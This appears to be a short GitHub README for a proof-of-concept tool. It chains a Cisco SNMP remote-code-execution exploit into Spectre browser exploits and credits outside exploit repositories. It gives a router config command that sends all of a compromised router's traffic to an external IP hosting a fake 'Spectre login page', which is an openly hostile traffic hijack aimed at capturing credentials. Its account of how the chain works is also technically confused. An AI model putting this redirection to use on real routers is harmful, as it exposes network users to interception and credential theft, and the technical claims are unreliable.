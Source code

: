 # CiscoSpectreTakeover
A **PoC** chain exploit using the recent Cisco SMP exploit (CVE-2017-6736) to chain into Spectre (CVE-2017-5753 and CVE-2017-5715)

[![forthebadge](http://forthebadge.com/images/badges/mom-made-pizza-rolls.svg)](http://forthebadge.com)

## Credits

Cisco RCE Exploit submodule by artkond: https://github.com/artkond/cisco-snmp-rce

JS Spectre Chrome POC by ascendr: https://github.com/ascendr/spectre-chrome

Tested on a Cisco 1841+2600 Router.

After running the RCE exploit. As config, run:

```Router(config)> ip route 0.0.0.0 0.0.0.0 195.20.52.49```

This will force all traffic through the Spectre login page I created. 
At a later date I will add a better version that addresses actually going to websites.
